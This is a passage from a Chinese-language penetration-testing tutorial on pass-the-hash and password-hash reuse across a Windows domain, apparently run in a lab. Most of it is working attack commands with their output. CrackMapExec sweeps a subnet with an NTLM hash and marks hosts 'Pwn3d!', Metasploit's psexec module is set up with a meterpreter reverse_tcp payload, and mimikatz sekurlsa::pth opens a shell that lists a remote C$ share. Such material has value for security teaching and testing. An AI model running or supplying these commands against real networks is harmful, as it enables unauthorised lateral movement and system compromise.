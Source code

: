 ## 小结
[UAC](https://en.wikipedia.org/wiki/User_Account_Control)是从windows vista版本引入的，所以vista之前的版本，管理员组的其他用户都能PTH；而vista之后的版本就无法PTH。管理员组中的域用户不受UAC限制，可以PTH

# Hash碰撞

获取到的域用户hash还可以进行Hash碰撞攻击来扩大影响，即检测域内是否有使用相同密码的其他机器存在

## 一些常用工具

### CrackMapExec

```bash
crackmapexec smb 10.0.0.133/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                               130 ⨯
#SMB         10.0.0.133      445    WIN-HSTT0ETJU78  [*] Windows 6.3 Build 9600 x64 (name:WIN-HSTT0ETJU78) (domain:xie.com) (signing:True) (SMBv1:False)
#SMB         10.0.0.133      445    WIN-HSTT0ETJU78  [+] xie.com\administrator:c81ad28df9b2c069be535fd86434c03b (Pwn3d!)
#SMB         10.0.0.138      445    WIN7             [*] Windows 7 Professional 7601 Service Pack 1 (name:WIN7) (domain:xie.com) (signing:False) (SMBv1:True)
#SMB         10.0.0.138      445    WIN7             [+] xie.com\administrator:c81ad28df9b2c069be535fd86434c03b (Pwn3d!)
```

### MSF

```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.0.0.133-10.0.0.138
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
run
```

### mimikatz

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.0.0.133 /ntlm:c81ad28df9b2c069be535fd86434c03b"
```
此时会获取另一个交互的cmd
```bash
C:\Windows\system32>whoami
#win7\administrator

C:\Windows\system32>dir \\10.0.0.133\c$
 #驱动器 \\10.0.0.133\c$ 中的卷没有标签。
 #卷的序列号是 F0F5-6A44

 #\\10.0.0.133\c$ 的目录

#2024/09/17  21:20    <DIR>          inetpub
#2013/08/22  23:52    <DIR>          PerfLogs
#2013/08/22  22:50    <DIR>          Program Files
#2013/08/22  23:39    <DIR>          Program Files (x86)
#2024/09/19  12:02    <DIR>          Users
#2024/10/04  12:04    <DIR>          Windows
#               0 个文件              0 字节
#               6 个目录 53,501,247,488 可用字节

```
